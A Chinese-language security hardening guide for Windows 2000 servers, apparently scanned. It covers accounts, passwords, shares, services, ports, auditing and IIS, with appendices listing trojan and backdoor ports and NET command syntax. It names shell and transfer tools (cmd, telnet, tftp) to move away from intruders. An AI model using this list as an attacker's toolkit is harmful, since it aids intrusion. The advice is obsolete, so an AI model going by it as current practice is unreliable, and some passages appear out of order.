账号应该尽可能少，删除一些测试账户、无用系统账户和不使用账户。这些账户往往是入侵者突破系统的入口，系统账户越多，获得合法用户权限的可能性一般也越大。给每个用户设定相应用户组和权限。管理员还应经常检查系统账户，看是否有陌生可疑账户多出来，或普通账户越权变为管理员账户。

最后还可以开启“本地安全策略”中的“账户策略”，具体策略可设置为：复位账户锁定计数器20分钟、账户锁定时间20分钟、账户锁定阈值3次。

### 四、密码安全

密码可能是用户唯一的验证信息，对系统安全至关重要，但其安全性却最容易被用户忽略。许多用户把公司名、生日、用户名、纪念日、常用英文单词或者一些别人一猜就到的东西做密码，比如“123456”“123abc”“790511”“iloveyou”“letmein”等，这些口令在攻击者面前安全性几乎为0，破解它们只要几秒钟。应尽量选用复杂口令，最好是英文、符号、数字并包括大小写的组合。

对密码长度也应进行限定，不要使用5位或5位以下字符作为密码。5位密码很不可靠，建议安全密码最少8位，并且应定期更改密码。

对某些远程登录服务，在一定时间内用户登录次数应进行限定，以防止远程破解。这些可以通过“本地安全策略”工具中的“密码策略”设置完成。开启密码策略，启用密码复杂性要求，并根据实际需要设置密码长度最小值、密码存留期、强制密码历史等。

如果系统安全要求很高，还可以考虑使用智能卡。使用智能卡代替密码验证有很多好处：一可以防止密码过于简单，二可以避免密码过于复杂而忘记的麻烦。

### 五、关闭IPC空连接和默认共享

默认情况下，任何用户可通过空连接连上服务器，进而枚举出账号并猜测密码。我们可以通过修改注册表禁止建立空连接：

```text
Local_Machine\System\CurrentControlSet\Control\LSA-RestrictAnonymous 的值改成 "1" 即可。
```

关闭默认共享：默认情况下，Windows 2000系统为方便管理存在许多默认共享，这些共享带来许多安全隐患，我们可通过修改注册表关闭它们：

- 禁止 C$、D$ 一类的缺省共享
- 禁止 ADMIN$ 缺省共享
- 限制 IPC$ 缺省共享

```text
(1) HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareServer, REG_DWORD, 0x0

(2) HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters
AutoShareWks, REG_DWORD, 0x0

(3) HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
restrictanonymous REG_DWORD
0x0 缺省
0x2 匿名用户无法连接本机 IPC$ 共享
```

如果确实有需要可以另外开共享，不过别忘了把共享文件权限从“Everyone”组改成“授权用户”，因为“Everyone”在Win2000中意味着任何有权进入你网络的用户都能够获得这些共享资料。

### 六、关闭不需要的服务

Win2000系统中存在许多服务，有些你需要，有些你并不需要，所以有很多服务需要配置。关闭不需要的服务并使其不再随启动加载。这里最基本原则就是运行尽可能少的服务。另外要注意，能运行服务的计算机用户要尽可能少，最好是本地系统账户。

最好能关闭所有没有用和不需要的服务，但实际中很难做到。Win2000系统中服务很多，大概近百个。哪些有用、哪些没用，还是要看实际需要。不过一般最普通的工作站必须服务有：

- DNS Client
- EventLog
- Logical Disk Manager
- Network Connections
- Plug & Play
- Protected Storage
- Remote Procedure Call
- Remote Registry Service
- RunAs service
- Security Accounts Manager

作为一个普通、没有特殊要求的工作站，最基本服务大概就是这些。如果主机作为域控制器，还得在上面基础上增加下面几个服务：

- DNS Server
- File Replication Service
- Kerberos Key Distribution Center
- Net Logon
- NT LM Service Provider
- RPC Locator
- Windows Time

如果你要把每个服务都弄清楚，那只能找微软关于各项服务功能和依赖关系的文档说明，然后一个个对照着关。

关闭服务时，点击“控制面板”→“管理工具”→“服务”，双击指定服务，弹出服务属性对话框，点击停止按钮停止该服务，然后还要把它的启动类型改为“禁用”，这样系统再次启动时才不会加载该服务。有些服务之间有依存关系，关闭时要一起关闭。

如果你认为某服务确实没用或者危险性很高，也可以删除该服务相关程序来彻底删除这个服务。像Windows 2000的TS、RAS都可能给系统带来严重安全威胁，如果不使用就关闭它。

其实在实际应用中，安全和服务很多时候是矛盾的：服务越多，系统承担的安全风险往往越大。但毕竟服务器是给用户提供服务的，也不能一味从安全出发关闭所有服务。如果安全原则妨碍了系统应用，那么这个安全原则也不是一个好原则，所以我们要寻求的是安全和服务之间的平衡。

### 七、关闭不必要的端口

端口是计算机和外部网络相连的逻辑接口，也是计算机的第一道屏障。端口配置正确与否直接影响主机安全。一般来说，仅打开你需要使用的端口会比较安全。配置方法是在：网卡属性→TCP/IP→高级→选项→TCP/IP筛选中启用TCP/IP筛选。

IP筛选时，填入要筛选的端口即可。设置完毕后要重新启动计算机才能生效。

不过对于Win2000的端口过滤来说，有一个不好的特性：只能规定开哪些端口，不能规定关闭哪些端口。这样对于需要开大量端口的用户就比较痛苦。关闭端口意味着减少功能，在安全和功能上需要你作一些决策。所以现在有条件的企业中，关闭端口功能一般转移到硬件上，通过防火墙和路由器设置对一些特定端口数据包进行过滤。

### 八、目录和文件权限安全设置

为了控制好服务器上用户权限，同时也为了预防以后可能的入侵和溢出，我们还必须非常小心地设置目录和文件访问权限。访问权限分为：读取、写入、读取及执行、修改、列目录、完全控制。在默认情况下，大多数文件夹对所有用户（Everyone组）是完全敞开的（Full Control），你需要根据应用需要进行权限重设。

在进行权限控制时，请记住以下几个原则：

- 权限是累计的：如果一个用户同时属于两个组，那么他就有了这两个组所允许的所有权限；
- 拒绝的权限要比允许的权限高（拒绝策略会先执行）：如果一个用户属于一个被拒绝访问某个资源的组，那么不管其他的权限设置给他开放了多少权限，他也一定不能访问这个资源。所以请非常小心地使用拒绝，任何一个不当的拒绝都有可能造成系统无法正常运行；
- 文件权限比文件夹权限高；
- 仅给用户真正需要的权限，权限的最小化原则是安全的重要保障。

## 九、设置安全策略

安全审核是 Win2000 最基本的入侵检测方法。当有人尝试对你的系统进行某些方式（如尝试用户密码、改变账户策略、未经许可的文件访问等等）入侵的时候，都会被安全审核记录下来。但 Win2000 的默认安装是不开任何安全审核的！也就是如果默认安装后你不开启安全审核，系统根本不会进行任何安全记录，你的安全日志也永远是空的，如果有人侵事件发生，你也无从发现他的痕迹。所以要注意了，安装完成后请你到“本地安全策略”——“审核策略”中打开相应的审核，如图6。审核项目既不能太少也不能太多，太少往往会漏过一些重要记录，而审核项目太多不仅查看麻烦而且会占用系统资源，我们建议开启的审核是：

| 审核项目 | 成功 | 失败 |
|---|---|---|
| 帐户管理 | 成功 | 失败 |
| 登录事件 | 成功 | 失败 |
| 对象访问 |  | 失败 |
| 策略更改 | 成功 | 失败 |
| 特权使用 |  | 失败 |
| 系统事件 | 成功 | 失败 |
| 目录服务访问 |  | 失败 |
| 帐户登录事件 | 成功 | 失败 |

同样，Terminal Service 的安全日志默认也是不开的，我们可以在“终端服务配置”打开“连接”中的图标的属性，如图7，然后选“权限”——“高级”中配置安全审核，一般来说只要记录登录、注销事件就可以了。


## 十、IIS 安全配置

IIS 是我们最常用的一个服务软件，但同时它也是各个组件中漏洞最多的一个，所以对 IIS 进行安全配置是非常重要的。

首先把默认的存放 WEB 的文件夹 inetpub 目录彻底删掉，在别的分区上建立一个新的文件夹，在 IIS 管理器中将主目录指向这个新建的文件夹路径，如图8。接着把 IIS 安装时默认的 scripts 等可执行虚拟目录一概删除，如果你需要什么权限的目录可以自己建，要注意的是有写权限和执行程序的权限，没有绝对的必要最好不要设。第三，打开 IIS 管理器中右击主机→属性→WWW 服务→主目录配置→应用程序映射，在 IIS 管理器中删除必须之外的任何无用映射，如 idq、ida、printer、htw、htr 等等，一般的主机只要 ASP、ASA 这两个映射就够了。接着在刚刚那个窗口的应用程序调试书签内将脚本错误消息改为发送文本，不然 ASP 出错的时候会泄露你的程序/网络/数据库结构。最后，为了保险起见，你可以使用 IIS 的备份功能，将刚刚的设定全部备份下来，这样就可以随时恢复 IIS 的安全配置。还有，如果你怕 IIS 负荷过高导致服务器满负荷死机，也可以在性能中打开 CPU 限制，例如将 IIS 的最大 CPU 使用率限制在 70%。

它不仅能杀掉一些著名的病毒，还能查杀大量木马和后门程序，使“黑客”们使用的那些有名的木马就毫无用武之地了，还有不要忘了经常升级病毒库。

**安装安全工具：** 经过安全配置后系统的安全性的确大为提高，但并不是绝对地安全，也不一定能防止那些艺高胆大的网络黑客的入侵。所以安装一些入侵检查系统和完整检验工具、日志查看工具等等，像 Snort 就是一个功能强大而且可以从网上免费得到的 IDS，它们会帮助你监视网络情况，发现黑客攻击等异常情况时会自动报警。

**备份数据：** 虽然现在服务器的硬盘容量都很大，但是你还是应该考虑是否有必要把一些重要的用户数据（文件、数据表、项目文件等）存放在另外一个安全的服务器中，并且经常备份它们，因为无论是物理损坏或者人为破坏，一旦数据丢失要恢复是非常麻烦的，备份是你恢复资料的有效途径。备份完资料后，把备份盘放在安全的地方。千万别把资料备份在同一台服务器上。

**自我测试：** 安全配置完后，你可以自己当回黑客，用各种黑客工具和端口扫描、漏洞扫描程序对自己的系统进行测试，为了真实模拟，最好放到互联网上进行测试。通过测试我们可以发现许多潜在的问题和漏洞，然后再一一进行解决。


## 十一、其它措施

上面我们已经对这个系统做了比较系统的配置了，这样你的系统安全性有很大提高了，最后还有几点要补充的：

- **EFS 加密：** 在必要时可以使用加密文件系统（EFS）来加密文件，这样即使有人把你的硬盘挂到别的主机上也无法读取，当然 EFS 加密必须是 NTFS 分区才能进行。
- **安装防毒软件：** 很多 Win2000 服务器都没有安装杀毒软件，现在病毒特别是蠕虫泛滥的时代里，给服务器装一个好的杀毒软件还是有必要的。
- **移除不安全程序：** 把一些工具从 NT 目录中转移到一个安全的目录，例如：cmd.exe、net.exe、telnet.exe、ftp.exe、tftp.exe、debug.exe、xcopy.exe 等，可以使黑客上来后找不到合适的工具和 SHELL。

到此 Win2000 服务器安全配置介绍完了，其实网络安全是一项系统工程，它不仅有空间的跨度，还有时间的跨度，我们应该知道：网络中的系统是没有永远的绝对的安全，我们只能说一台主机在一定的情况下、在一定的时间上是安全的，随着网络结构的变化、新的漏洞的发现、管理员/用户的操作，主机的安全状况是随时随地变化着的，只有让安全意识和安全制度贯彻整个过程，才能做到真正的安全。


（右侧竖幅题字，部分难辨）陈… / ……

## 附录

### 附录一：常见端口对照表

- 7=Echo
- 20=Ftp Data
- 21=FTP Open Server
- 23=Telnet
- 25=Smtp
- 31=Master Paradise.80
- 53=DNS, Bonk (DoS Exploit)
- 79=Finger
- 80=Http
- 110=Pop3
- 113=Auther Ident
- 119=Nntp
- 121=BO jammerkillah
- 137=NetBios-NS
- 138=NetBios-DGN
- 139=NetBios-SSN
- 143=IMAP
- 161=Snmp
- 162=Snmp-Trap
- 194=Irc
- 443=Https
- 456=Hackers Paradise
- 555=Stealth Spy (Phase)
- 666=Attack FTP
- 1001=Silencer
- 1001=WebEx
- 1010=Doly trojan v1.35
- 1011=Doly Trojan
- 1015=Doly trojan v1.5
- 1024=NetSpy.698 (YAI)
- 1025=NetSpy.698
- 1033=Netspy
- 1042=Blah.1
- 1047=GateCrasher.b
- 1047=GateCrasher.c
- 1080=Wingate
- 1243=SubSeven
- 1245=Vodoo
- 1269=Maverick's Matrix
- 1433=MSSQL
- 1492=FTP99CMP (BackOriffice FTP)
- 1509=Streaming Server
- 1600=Shiv
- 1807=SpySender
- 1981=ShockRave
- 1999=Backdoor (YAI)
- 1999=BackDoor.200
- 1999=BackDoor.201
- 1999=BackDoor.202
- 1999=BackDoor.203
- 2001=TrojanCow
- 2023=Pass Ripper
- 2140=DeepThroat.10
- 2140=Invasor
- 2140=The Invasor
- 2283=Rat
- 2565=Striker
- 2583=Wincrash2
- 2801=Phineas
- 3129=MastersParadise.92
- 3150=Deep Throat 1.0
- 3210=SchoolBus
- 3306=MYSQL
- 3389=Windows 终端服务
- 4000=OICQ Client
- 4567=FileNail
- 4950=IcqTrojan
- 5000=Blazer 5
- 5190=ICQ Query
- 5321=Firehotcker
- 5400=BackConstruction1.2
- 5400=BladeRunner
- 5550=Xtcp
- 5569=RoboHack
- 5714=Wincrash3
- 5742=Wincrash
- 6400=The Thing
- 6669=Vampire
- 6670=Deep Throat
- 6711=SubSeven
- 6713=SubSeven
- 6767=NT Remote Control
- 6771=Deep Throat 3
- 6776=SubSeven
- 6883=DeltaSource
- 6939=Indoctrination
- 6969=Gatecrasher.a
- 7007=Windows media
- 7306=NetMonitor (NetSpy)
- 7307=ProcSpy
- 7308=X Spy
- 7626=木马冰河
- 7789=ICQKiller
- 8000=OICQ Server
- 8080=WWW
- 8787=BackOffice 2000
- 9400=InCommand
- 9401=InCommand
- 9402=InCommand
- 9872=Portal of Doom
- 9875=Portal of Doom
- 9989=IniKiller
- 10167=Portal Of Doom
- 10607=Coma

## 附录二 NET 命令详解

#### Net Accounts

更新用户账号数据库、更改密码及所有账号的登录要求。必须要在更改账号参数的计算机上运行网络登录服务。

```text
net accounts [/forcelogoff:{minutes | no}] [/minpwlen:length] [/maxpwage:{days | unlimited}] [/minpwage:days] [/uniquepw:number] [/domain]
net accounts [/sync] [/domain]
```

**参数**

无。

键入不带参数的 `net accounts`，将显示当前密码设置、登录时限及域信息。

- **/forcelogoff:{minutes | no}**：设置当用户账号或有效登录时间过期时，结束用户和服务器会话前的等待时间。`no` 禁止强行注销。默认值为 `no`。
- **/minpwlen:length**：设置用户账号密码的最少字符数，范围 0–14，默认 6。
- **/maxpwage:{days | unlimited}**：设置用户账号密码有效的最大天数，`unlimited` 为不设上限；天数必须大于 `/minpwage`。
- **/minpwage:days**：设置用户必须保持原密码的最小天数。
- **/uniquepw:number**：要求用户更改密码时，必须经过 `number` 次后才可重复使用相同密码。
- **/domain**：在当前域的主域控制器上执行操作。
- **/sync**：当用于主域控制器时，使域内备份域控制器与主域控制器同步。

（续）当用于备份域控制器时，该命令仅使该备份域控制器与主域控制器同步。该命令仅适用于 Windows NT Server 域成员计算机。

#### Net Computer

从域数据库中添加或删除计算机。该命令仅在运行 Windows NT Server 的计算机上可用。

```text
net computer \\computername {/add | /del}
```

- `\\computername`：指定要添加到域或从域中删除的计算机。
- `/add`：将指定计算机添加到域。
- `/del`：将指定计算机从域中删除。

#### Net Config

显示当前运行的可配置服务，或显示并更改某项服务的设置。

```text
net config [service [options]]
```

- **service**：通过 `net config` 命令进行配置的服务（server 或 workstation）。
- **options**：服务的特定选项。

#### Net Config Server

运行服务时显示或更改服务器的服务设置。

```text
net config server [/autodisconnect:time] [/srvcomment:"text"] [/hidden:{yes | no}]
```

**参数**

无。键入不带参数的 `net config server` 将显示服务器服务的当前配置。

`/autodisconnect:time`

设置断开前用户会话闲置的最大时间值。可以指定 **-1** 表示永不断开连接。允许范围是 **-1–65535 分钟**，默认值是 **15 分钟**。

`/srvcomment:"text"` 为服务器添加注释，可通过 `net view` 显示。注释最多 48 个字符，需用引号。

`/hidden:{yes | no}` 指定服务器计算机名是否出现在服务器列表中。默认值为 `no`。

参数：无。键入不带参数的 `net file` 可获得服务器上打开文件的列表。

`id`：文件标识号。

`/close`：关闭打开的文件并释放锁定记录。请从共享文件所在服务器中键入该命令。

#### Net Config Workstation

服务运行时，显示或更改工作站各项服务的设置。

```text
net config workstation [/charcount:bytes] [/chartime:msec] [/charwait:sec]
```

- **参数**：无（不带参数时显示本地计算机当前配置）
- **/charcount:bytes**：发送前收集的数据量，0–65535 字节，默认 16。
- **/chartime:msec**：发送前收集数据的时间，0–65535000 毫秒，默认 250。
- **/charwait:sec**：等待通讯设备变为可用时间，0–65535 秒，默认 3600。

#### Net Continue

重新激活挂起的服务。

```text
net continue service
```

参数 `service`：能够继续运行的服务包括 file server for macintosh、ftp publishing service、lpdsvc、net logon、network dde、network dde dsdm、nt lm security support provider、remoteboot、remote access server、schedule、server、simple tcp/ip services、workstation 等。

#### Net File

显示某服务器上所有打开的共享文件名及锁定文件数。该命令也可关闭个别文件并取消文件锁定。

```text
net file [id [/close]]
```

#### Net Group

在 Windows NT Server 域中添加、显示或更改全局组。该命令仅在 Windows NT Server 域中可用。

```text
net group [groupname [/comment:"text"]] [/domain]
net group groupname {/add [/comment:"text"] | /delete} [/domain]
net group groupname username [...] {/add | /delete} [/domain]
```

- **参数**：无（不带参数时显示服务器名称及组名称）
- **groupname**：要添加、扩展或删除的组；仅给组名可查看组中用户列表。
- **/comment:"text"**：为新建组或现有组添加注释，最多 48 字符。
- **/domain**：在当前域主域控制器中执行；对 Workstation 成员机有意义。
- **username [...]**：要添加到组或从组删除的一个或多个用户名。
- **/add**：添加组或将用户加入组。
- **/delete**：删除组或从组中删除用户名。

#### Net Help

提供网络命令列表及帮助主题，或提供指定命令/主题的帮助。

```text
net help [command]
net command {/help | /?}
```

无。

键入不带参数的 `net help` 显示能够获得帮助的命令列表和帮助主题。

- **command**：需要其帮助的命令，不要将 `net` 作为 command 的一部分。
- **/help**：提供显示帮助文本方式选择。
- **/?**：显示命令的正确语法。

#### Net Helpmsg

提供 Windows NT 错误信息的帮助。

```text
net helpmsg message#
```

- **参数**
- **message#**：需要其帮助的 Windows NT 消息的四位代码。

#### Net Localgroup

添加、显示或更改本地组。

```text
net localgroup [groupname [/comment:"text"]] [/domain]
net localgroup groupname {/add [/comment:"text"] | /delete} [/domain]
net localgroup groupname name [...] {/add | /delete} [/domain]
```

- **参数**
- **无**：键入不带参数的 `net localgroup` 将显示服务器名称和计算机的本地组名称。
- **groupname**：要添加、扩充或删除的本地组名称。
- **/comment:"text"**：为新建或现有组添加注释（最大约 48 字符）。
- **/domain**：在当前域的主域控制器中执行操作，否则仅在本地计算机上执行。
- **name [...]**：列出要添加到本地组或从本地组中删除的一个或多个用户名或组名。
- **/add**：将全局组名或用户名添加到本地组中。
- **/delete**：从本地组中删除组名或用户名。

#### Net Name

添加或删除消息名（有时也称别名），或显示计算机接收消息的名称列表。要使用 `net name` 命令，计算机中必须运行信使服务。

```text
net name [name [/add | /delete]]
```

- **参数**
- **无**：键入不带参数的 `net name` 将列出当前使用的名称。
- **name**：指定接收消息的名称（名称最多 15 个字符）。
- **/add**：将名称添加到计算机中。
- **/delete**：从计算机中删除名称。

#### Net Pause

暂停正在运行的服务。

```text
net pause service
```

- **参数**
- **service**：指下列服务之一：`file server for macintosh`（仅限 Windows NT Server）、`ftp publishing service`、`lpdsvc`、`net logon`、`network dde`、`network dde dsdm`、`nt lm security support provider`、`remoteboot`（仅限 Windows NT Server）、`remote access server`、`schedule`、`server`、`simple tcp/ip services` 或 `workstation`。

#### Net Print

显示或控制打印作业及打印队列。

```text
net print \\computername sharename
net print [\\computername] job# [/hold | /release | /delete]
```

- **参数**
- **computername**：共享打印机队列的计算机名。
- **sharename**：打印队列名称。
- **job#**：在打印机队列中分配给打印作业的标识号。
- **/hold**：使用 job# 时，使打印作业等待并保留在队列中，直到释放。

## 附录

……放入该作业之后才能进入。  
**/release**：释放保留的打印作业。  
**/delete**：从打印机队列中删除打印作业。

#### Net Send

向网络的其他用户、计算机或通信名发送消息。要接收消息，必须运行信使服务。

```bash
net send {name | * | /domain[:name] | /users} message
```

- **name**：要接收发送消息的用户名、计算机名或通信名（含空格需用引号）。
- **\***：将消息发送到组中所有名称。
- **/domain[:name]**：将消息发送到计算机域中的所有名称；指定 name 时，发送到指定域或组中的所有名称。
- **/users**：将消息发送到与服务器连接的所有用户。
- **message**：作为消息发送的文本。

#### Net Session

列出或断开本地计算机与连接到它的客户端会话。

```bash
net session [\\computername] [/delete]
```

- **无**：键入不带参数的 `net session` 可显示所有与本地计算机的会话信息。
- **\\computername**：标识要列出或断开会话的计算机。
- **/delete**：结束与 `\\computername` 的会话，并关闭本次会话期间该计算机的所有打开文件；省略 `\\computername` 时，取消与本地计算机的所有会话。

#### Net Share

创建、删除或显示共享资源。

```bash
net share sharename
net share sharename=drive:path [/users:number | /unlimited] [/remark:"text"]
net share sharename [/users:number | /unlimited] [/remark:"text"]
net share {sharename | drive:path} /delete
```

- **无**：键入不带参数的 `net share` 将显示本地计算机上所有共享资源的信息。
- **sharename**：共享资源的网络名称；键入带 `sharename` 的 `net share` 命令只显示该共享信息。
- **drive:path**：指定共享目录的绝对路径。
- **/users:number**：设置可同时访问共享资源的最大用户数。
- **/unlimited**：不限制同时访问共享资源的用户数。
- **/remark:"text"**：添加关于资源的注释（需引号）。
- **/delete**：停止共享资源。

#### Net Start

启动服务，或显示已启动服务的列表。若服务名由两个或以上单词组成（如 `Net Logon`、`Computer Browser`），必须用引号括起。

```bash
net start [service]
```

- **无**：键入不带参数的 `net start` 则显示运行服务的列表。
- **service**：包括 alerter、client service for netware、computer browser、dhcp client、eventlog、messenger、net logon、schedule、server、spooler、workstation 等；部分服务仅在 Windows NT Server 可用（如 file server for macintosh、microsoft dhcp server、windows internet name service）。

#### Net Statistics

显示本地工作站或服务器服务的统计记录。

```bash
net statistics [workstation | server]
```

- **无**：键入不带参数的 `net statistics` 将列出其统计信息可用的运行服务。
- **workstation**：显示本地工作站服务的统计信息。
- **server**：显示本地服务器服务的统计信息。

#### Net Stop

停止 Windows NT 网络服务。

```bash
net stop service
```

参数：

- **service**
- 包括下列服务：alerter、client service for netware、clipbook server、computer browser、directory replicator、ftp publishing service、lpdsvc、messenger、net logon、network dde、network dde dsdm、network monitor agent、nt lm security support provider、ole、remote access connection manager、remote access isnsap service、remote access server、remote procedure call (rpc) locator、remote procedure call (rpc) service、schedule、server、simple tcp/ip services、snmp、spooler、tcp/ip netbios helper、ups、workstation。
- 下列服务仅在 Windows NT Server 中可用：file server for macintosh、gateway service for netware、microsoft dhcp server、print server for macintosh、remoteboot、windows internet name service。

#### Net Time

使计算机的时钟与另一台计算机或域的时间同步。不带 `/set` 参数使用时，将显示另一台计算机或域的时间。

```bash
net time [\\computername | /domain[:name]] [/set]
```

- **\\computername**：要检查或同步的服务器名。
- **/domain[:name]**：指定要与其时间同步的域。
- **/set**：使本计算机时钟与指定计算机或域的时钟同步。

#### Net Use

连接计算机或断开计算机与共享资源的连接，或显示计算机的连接信息。该命令也控制永久网络连接。

```bash
net use [devicename | *] [\\computername\sharename[\volume]] [password | *]
[/user:[domainname\]username] [/delete] [/persistent:{yes | no}]

net use devicename [/home [password | *]] [/delete:{yes | no}]

net use [/persistent:{yes | no}]
```

参数：无。键入不带参数的 `net use` 将列出网络连接。

- **devicename**：指定要连接到的资源名称或要断开的设备名称（如磁盘驱动器 D: 到 Z:、打印机 LPT1: 到 LPT3:）。
- **\\computername\sharename**：服务器及共享资源名称；若计算机名含空格需使用引号。
- **volume**：指定服务器上的 NetWare 卷。
- **password**：访问共享资源的密码。
- **\***：提示键入密码（输入时不显示）。
- **/user**：指定进行连接的另一个用户。
- **domainname**：指定域；若省略则使用当前登录域。
- **username**：指定登录用户名。
- **/home**：将用户连接到其宿主目录。
- **/delete**：取消指定网络连接；若使用通配可取消所有网络连接。
- **/persistent**：控制永久网络连接。
  - **yes**：保存并在下次登录时还原。
  - **no**：不保存后续连接；可配合 `/delete` 取消永久连接。

#### Net User

添加或更改用户帐号，或显示用户帐号信息。

```bash
net user [username [password | *] [options]] [/domain]
net user username {password | *} /add [options] [/domain]
net user username [/delete] [/domain]
```

参数：无。键入不带参数的 `net user` 将查看计算机上的用户帐号列表。

- **username**：添加、删除、更改或查看用户帐号名。用户名最多可以有 20 个字符。
- **password**：为用户帐号分配或更改密码。密码必须满足 `net accounts` 命令 `/minpwlen` 选项中设置的最小参数，最多 14 个字符。
- **\***：提示输入密码。在密码提示行中键入密码时，将不显示该密码。
- **/domain**：在计算机主域的主域控制器中执行操作。默认情况下在主域控制器中执行。
- **/add**：将用户帐号添加到用户帐号数据库。
- **/delete**：从用户帐号数据库中删除用户帐号。
- **/active:{no|yes}**：启用或禁止用户帐号，默认值 `yes`（激活）。
- **/comment:"text"**：提供用户帐号注释，最多 48 个字符。
- **/countrycode:nnn**：使用系统国家代码提供指定语言帮助信息，`0` 为默认国家代码。
- **/expires:{date|never}**：设置帐号过期时间，支持多种日期格式。
- **/fullname:"name"**：指定用户全名。
- **/homedir:path**：设置用户宿主目录路径。
- **/homedirreq:{yes|no}**：设置是否需要宿主目录。
- **/passwordchg:{yes|no}**：指定用户是否能改变自己的密码，默认 `yes`。
- **/passwordreq:{yes|no}**：指定用户帐号是否需要密码，默认 `yes`。
- **/profilepath:[path]**：设置用户登录配置文件路径。
- **/scriptpath:path**：为用户登录脚本设置路径。
- **/times:{times|all}**：指定允许用户使用计算机的时间（按日/时段设置）。
- **/usercomment:"text"**：设置管理员添加或更改帐号时的“用户注释”。
- **/workstations:{computername[,...]|*}**：列出用户可登录到网络的工作站；`*` 表示任意计算机。

#### Net View

显示域列表、计算机列表或指定计算机的共享资源列表。

```bash
net view [\\computername | /domain[:domainname]]
net view /network:nw [\\computername]
```

参数：无。键入不带参数的 `net view` 将显示当前域的计算机列表。

- **\\computername**：指定要查看其共享资源的计算机。
- **/domain[:domainname]**：指定要查看其可用计算机的域；省略域名则显示网络中的所有域。
- **/network:nw**：显示 NetWare 网络中所有可用服务器；若指定计算机名，则显示该计算机在 NetWare 网络中的可用资源。

—再见—